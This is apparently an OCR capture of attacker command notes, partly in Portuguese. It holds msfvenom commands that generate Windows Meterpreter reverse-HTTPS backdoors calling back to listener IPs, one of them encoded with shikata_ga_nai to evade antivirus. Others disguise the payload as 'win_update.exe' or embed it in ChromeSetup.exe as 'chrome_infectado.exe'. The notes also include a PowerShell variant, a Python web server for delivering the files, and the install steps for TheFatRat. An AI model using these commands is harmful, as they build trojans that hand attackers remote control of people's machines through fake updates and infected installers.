 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.100 LPORT=443 -f exe -x ChromeSetup.exe -o chrome_infectado.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.137 LPORT=443 -f exe -o chrome_infectado.exe


msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.137 LPORT=443 -f exe -x /caminho/completo/ChromeSetup.exe -o chrome_infectado.exe


msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

python3 -m http.server 8080



git clone https://github.com/Screetsec/TheFatRat.git
cd TheFatRat
chmod +x setup.sh && sudo ./setup.sh



